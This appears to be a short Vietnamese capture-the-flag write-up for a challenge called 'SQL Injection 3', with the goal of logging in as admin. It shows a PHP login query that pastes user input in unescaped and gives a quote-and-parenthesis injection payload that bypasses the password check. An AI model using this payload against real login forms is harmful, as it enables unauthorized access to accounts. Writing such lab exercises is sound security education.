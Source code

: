 # SQL Injection 3
# Mục tiêu: Login as admin
# 🔥 Phân tích lỗ hổng
```
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
```
* ở đây cần thoát khỏi ngoặc:
```
admin") or ("1"="1 
```
Tương đương
```
SELECT * FROM users WHERE username=LOWER("admin") or ("1"="1") AND password=MD5("abc")
```